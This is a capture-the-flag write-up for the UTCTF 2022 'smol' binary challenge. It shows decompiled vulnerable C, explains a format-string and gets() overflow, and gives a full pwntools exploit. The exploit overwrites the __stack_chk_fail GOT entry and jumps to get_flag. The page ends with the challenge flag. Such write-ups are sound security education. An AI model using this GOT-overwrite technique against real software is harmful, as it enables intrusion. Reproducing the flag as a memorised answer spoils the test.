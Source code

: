 ```
You can have a little overflow, as a treat

By Tristan (@trab on discord)
nc pwn.utctf.live 5004 
```

[smol](/utctf-2022/bins/smol)

![checksec of smol; no PIE but it has a canary](/utctf-2022/smol_checksec.png)

```c

undefined8 main(void)

{
  char cVar1;
  int iVar2;
  ulong uVar3;
  char *pcVar4;
  long in_FS_OFFSET;
  byte bVar5;
  char local_158 [111];
  undefined4 uStack233;
  undefined2 uStack229;
  char local_78 [104];
  long local_10;
  
  bVar5 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What kind of data do you have?");
  gets(local_158);
  iVar2 = strcmp(local_158,"big data");
  if (iVar2 == 0) {
    uVar3 = 0xffffffffffffffff;
    pcVar4 = (char *)((long)&uStack233 + 1);
    do {
      if (uVar3 == 0) break;
      uVar3 = uVar3 - 1;
      cVar1 = *pcVar4;
      pcVar4 = pcVar4 + (ulong)bVar5 * -2 + 1;
    } while (cVar1 != '\0');
    *(undefined4 *)((long)&uStack233 + ~uVar3) = 0x30322025;
    *(undefined2 *)((long)&uStack229 + ~uVar3) = 0x73;
  }
  else {
    iVar2 = strcmp(local_158,"smol data");
    if (iVar2 == 0) {
      uVar3 = 0xffffffffffffffff;
      pcVar4 = (char *)((long)&uStack233 + 1);
      do {
        if (uVar3 == 0) break;
        uVar3 = uVar3 - 1;
        cVar1 = *pcVar4;
        pcVar4 = pcVar4 + (ulong)bVar5 * -2 + 1;
      } while (cVar1 != '\0');
      *(undefined4 *)((long)&uStack233 + ~uVar3) = 0x73352025;
      *(undefined *)((long)&uStack229 + ~uVar3) = 0;
    }
    else {
      puts("Error");
    }
  }
  puts("Give me your data");
  gets(local_78);
  printf((char *)((long)&uStack233 + 1),local_78);
  putchar(10);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The big takeaway I get from this is that it's vulnerable as fuck. Multiple gets calls, and a sus printf. A naive overflow can't exploit this because of the canary but we also have a printf which uses a stack string as the format string. This is unimaginably suspicious to me because honestly no good reason why it shouldn't be an unwritable constant string. A little investigation on how it gets populated (in two conditional blocks, branched based on strcmp) shows that if neither of those strcmp calls match then the stack string is uninitialized. 

At this point the general structure of the attack is clear

1. Overflow the "what kind of data" prompt to fill the stack string with whatever we want and not match either big or smol data. 
2. Rewrite the GOT entry for `__stack_chk_fail` to a ret gadget
3. ROP to get_flag. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./smol_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r)
    else:
        r = remote("pwn.utctf.live", 5004)
    return r


def main():
    r = conn()
    payload = fmtstr_payload(20, {exe.got['__stack_chk_fail']: next(exe.search(b'\xc3'))})
    r.sendline(b"A" * 112 + payload)
    r.sendline(b"A" * 120 + p64(exe.symbols['get_flag']))

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```


utflag{just_a_little_salami15983350}